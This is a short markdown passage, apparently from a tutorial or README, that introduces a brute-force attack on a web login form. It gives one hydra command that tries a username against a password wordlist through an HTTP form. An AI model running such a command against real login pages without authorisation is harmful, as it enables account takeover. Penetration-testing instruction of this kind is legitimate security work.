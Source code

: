 ## 1. Brute Force Attack

![](https://pimages.toolbox.com/wp-content/uploads/2022/05/10131245/Critical-Steps-of-a-Brute-Force-Attack.png)
>We will use hydra and custom bash script to perform bruteforce attack
*Hydra**
```
hydra target.com -V -l username -P "worldlists.txt" http-get-form "/path:formusername=^USER^&formpassword=^PASS^&FormLogin=Login:F=Fail Message:H=Cookie: Cookies"
```
